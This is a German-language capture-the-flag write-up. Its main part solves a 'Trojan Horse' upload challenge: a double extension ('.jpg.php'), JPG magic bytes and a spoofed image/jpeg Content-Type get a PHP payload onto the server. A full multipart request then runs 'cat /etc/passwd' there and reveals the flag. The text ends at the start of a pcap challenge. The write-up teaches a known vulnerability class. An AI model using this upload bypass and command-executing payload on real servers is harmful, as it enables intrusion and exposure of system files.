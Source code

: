 ## Challenge #5 ([Trojan Horse](http://18.194.166.81/trojan/)) (medium)
Wir können Dateien hochladen.

Lädt man die Datei mit dem Namen `test.php` hoch kommt folgender Fehler:
```
Your Artwork was not uploaded. Invalid extension.
```

Lädt man die Datei mit dem Namen `test.jpg.php` hoch kommt folgender Fehler:
```
Your Artwork was not uploaded. Invalid type.
```
Es wird also nur geguckt ob `.jpg` im Dateinamen enthalten ist und nicht ob er darauf endet. Ebenso wird das Format überprüft. Aber wie?

Probehalber senden wir eine Datei mit dem Namen `test.jpg.php` die die JPG magic bytes "FF D8" enthält:
```bash
echo -en "\xFF\xD8\n<?php\nvar_dump(\$_SERVER);" > test.jpg.php
```
Diese wird allerdings auch abgelehnt. Grund dafür ist anscheinend der MIME-Type der automatisch vom Browser gesetzt wird (`Content-Type: text/php`). Setzt man diesen auf `image/jpeg` wird die Datei akzeptiert und als PHP-Datei mit PHP-Extension gespeichert.

```
-----------------------------200211931521742592722360568165
Content-Disposition: form-data; name="name"

test
-----------------------------200211931521742592722360568165
Content-Disposition: form-data; name="email"

test@email.org
-----------------------------200211931521742592722360568165
Content-Disposition: form-data; name="image"; filename="test3.jpg.php"
Content-Type: image/jpeg

<?php $r=null;$o=null;exec('cat /etc/passwd',$0,$r);print_r($o);

-----------------------------200211931521742592722360568165
Content-Disposition: form-data; name="submit"

Submit
-----------------------------200211931521742592722360568165--
```

Ruft man die zurückgegebene URL nun über den Webbrowser auf, so wird das PHP-Skript ausgeführt und gibt den Inhalt von `/etc/passwd` zurück. Dort befindet sich die Flag:
```
SBCTF{unr3s7r1c73d_f1l3_upl04d_1s_d4ng3r0us}
```

## Challenge #6 (Nice Duck!) (medium)
Wir haben eine `pcapng`-Datei bekommen. Diese kann man mit Wireshark öffnen.
